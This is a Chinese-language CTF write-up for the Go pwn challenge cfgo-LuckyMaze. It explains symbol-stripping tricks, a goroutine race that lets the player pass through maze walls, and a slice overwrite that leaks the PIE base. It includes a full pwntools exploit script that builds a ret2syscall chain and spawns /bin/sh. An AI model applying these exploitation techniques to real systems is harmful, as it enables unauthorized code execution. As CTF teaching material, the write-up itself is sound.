


# cfgo-LuckyMaze

## 题目简述

本题是 Go pwn 题，程序用 `unsafe` 人为制造栈溢出，并对 Go 符号做了更彻底的 strip，使常见的 Go 逆向辅助脚本无法直接恢复函数名。题目逻辑是在用户输入影响下生成 Aztec 迷宫，正常路径会被中心两圈墙挡住，需要利用 goroutine 更新墙状态与主 goroutine 处理输入之间的条件竞争穿墙，进入 win 逻辑后再通过 Go slice 覆盖实现任意读、泄露 PIE，最后 ret2syscall 拿 shell。

## 解题过程

这次一共出了三道go pwn题，还有一个在web分类下的base64，golang本身内存安全没啥漏洞，三题最终都是用unsafe包来故意制造的栈溢出，做法也都差不多。不过我在编译文件上做了些手脚来让 [IDAGolangHelper](https://github.com/sibears/IDAGolangHelper)的重命名失效， 如果你尝试过重命名会发现函数名全是杂乱的字符，这样做的 目的是使得Golang的strip更加彻底，达到真正意义上的strip。IDAGolangHelper 的作用是辅助 IDA 识别 Go runtime、函数边界和符号名；本题刻意破坏这条捷径后，仍然可以利用 Go 编译产物的布局特点继续分析：用户编写的函数通常集中在末尾、`x_cgo*****` 相关符号之前，因此只需要重点看最后几个函数，前面大多是 import 进来的 runtime 或库代码。



对于本题而言是cfgo-CheckIn这题的一个升级版本，根据用户的输入计算sha512再生成aztec码，如果你能从右下角走到正中间的🚩就能到达win函数触发栈溢出，使用 aztec码的原因是它中间必定有两圈墙，所以正常方法肯定走不过去。这里存在一个条件竞争，也是与cfgo-CheckIn一题的区别之处：单独启动了一个goroutine来进行当前上下左右四个方向墙的检测并不断更新墙状态来表示当前什么方向能移动（cfgo-CheckIn中是每走一步检测一下所以不存在条件竞争），而主goroutine中又在循环处理用户的输入并根据墙状态来判断是否能移动，所以如果我们快速的w几下就有小概率能够“穿墙”，为了保证能重复的穿墙我们w后需要s一下。通过不断的wws我们就能一路穿墙到右上角。最后，如果想要稳定到达中间的🚩，需要类似下图这样的路线，同时保证初始状态是能够w走至少一步的，这样wws才能成功穿墙。另外payload和生成的图形具有反馈关系，所以需要不停的调整payload里面那些无用的pad字符，生成能够往上走至少一步的aztec。



到达🚩后实际上就是和 cfgo-CheckIn差不多的栈溢出了， 后面也给出了关键操作的hint：wws、aad，不过没人做出来了，可能是没 [IDAGolangHelper](https://github.com/sibears/IDAGolangHelper)看着头疼吧2333。

exp中的几个点：


1. win函数中把slice溢出后又printf了一下，是给大家任意地址读用的，按slice的结构体覆盖了就行
```go
struct slice{
  byte* array;
  uintgo len;
  uintgo cap;
}
```
2. cfgo-xxx都开启了pie，不过栈地址固定，且开头 0xc000000030 处必有指向ELF的地址，直接用这个来计算pie就行了
3. 最后覆盖低位，跳回main函数（需要爆破4bit），再溢出一次，ret2syscall
```python
#-*- coding: utf-8 -*-
from pwn import *

__author__ = '3summer'
binary_file = './main'
context.binary = binary_file
context.terminal = ['tmux', 'sp', '-h']
elf = ELF(binary_file)
libc = elf.libc
context.log_level = 'error'
def dbg(breakpoint):
    # print os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).read()
    # raw_input()
    gdbscript = ''
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(io.pid)).readlines()[2], 16) if elf.pie else 0
    gdbscript += 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
    gdbscript += 'c\n'
    log.info(gdbscript)
    gdb.attach(io, gdbscript)
    time.sleep(1)

def exploit(io):
    s       = lambda data               :io.send(str(data))
    sa      = lambda delim,data         :io.sendafter(str(delim), str(data))
    sl      = lambda data               :io.sendline(str(data))
    sla     = lambda delim,data         :io.sendlineafter(str(delim), str(data))
    r       = lambda numb=4096          :io.recv(numb)
    ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
    irt     = lambda                    :io.interactive()
    uu32    = lambda data               :u32(data.ljust(4, '\0'))
    uu64    = lambda data               :u64(data.ljust(8, '\0'))
    # dbg(0x129B79)
    # dbg(0x12928A)
    # payload = cyclic(105)
    payload = flat('a'*0x40, 0xc000000030, 0x8, 0x8).ljust(0x60,'e')
    # payload += p64(0x12345678)
    payload += p16(0x4000+0x9360)
    sla('Leave your name.\n',payload)
    ru('red flag.')
    ru('\xf0\x9f\x98\x82')
    sl('wwws'*3000+'s'*21+'aaad'*3000)
    ru('You win!!!')
    ru('Your name is : ')
    elf.address = u64(r(8)) - 0x21fea0
    print 'leak ELF base :0x%x'%elf.address
    if elf.address % 0x10000 != 0x4000:
        raise EOFError
    context.log_level = 'debug'
    # raw_input()
    mov_ptr_rdi = 0x00000000000d46ef#: mov qword ptr [rdi], rax; ret;
    pop_rax = 0x0000000000079e89#: pop rax; ret;
    pop_rdi = 0x000000000012a1e7#: pop rdi; ret;
    syscall = 0x10A8BA
    payload = flat('/bin/sh\x00'.ljust(0x1b0,'a'),
    elf.address+pop_rax,  "/bin/sh\x00",
    elf.address+pop_rdi, 0xc000000000,
    elf.address+mov_ptr_rdi,
    elf.address+syscall, 0, 0x3b, 0, 0, 0)
    sla('Leave your name.\n',payload)
    return io

if __name__ == '__main__':
    while True:
        try:
            if len(sys.argv) > 1:
                io = remote(sys.argv[1], sys.argv[2])
            else:
                io = process(binary_file, 0)
            exploit(io)
        except EOFError:
            continue
        io.interactive()
```

## 方法总结

Go pwn 的逆向重点不应只依赖符号恢复工具，strip 彻底时可以从用户函数在二进制尾部集中出现的规律入手。利用上，本题分两段：先通过墙状态 goroutine 与输入 goroutine 的竞争，用 `wws` 这类节奏稳定穿墙；再在 win 函数中覆盖 slice 三元组 `array/len/cap` 做任意读，借 `0xc000000030` 附近稳定存在的 ELF 指针计算 PIE，低位覆盖返回主流程后第二次溢出，最终用 syscall 链执行命令。
